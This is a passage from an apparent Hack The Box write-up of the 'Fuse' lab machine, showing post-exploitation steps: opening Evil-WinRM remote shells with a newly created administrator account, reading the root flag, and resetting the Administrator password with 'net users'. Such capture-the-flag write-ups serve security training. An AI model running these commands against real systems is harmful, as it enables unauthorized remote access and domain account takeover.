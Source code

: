 ```shell

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Local Administrator - coldfusion

Now that our user was successfully created, We can get a shell using `coldfusion:ColdFusi0nX`:

```shell
cfx:  ~/Documents/htb/fuse
→  evil-winrm -i 10.10.10.193 -u coldfusion -p ColdFusi0nX

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\coldfusion\Documents> whoami
fabricorp\coldfusion
```
Since we are a member of Local Administrators group, we are authorized to read `root.txt` from Administrator's Desktop:

```shell
*Evil-WinRM* PS C:\Users\coldfusion\Documents> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> get-content root.txt
562d41d17cbbea2*****************

```

### Administrator Shell

We can also set Administrator's password as `ColdFus1onx`:

```shell
*Evil-WinRM* PS C:\Users\coldfusion\Documents> net users administrator ColdFus1onx
The command completed successfully
```
Now let's get a new shell as Administrator:

```shell
cfx:  ~/Documents/htb/fuse
→ evil-winrm -i 10.10.10.193 -u administrator -p 'ColdFus1onx'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
fabricorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> get-content root.txt
562d41d17cbbea2*****************

```
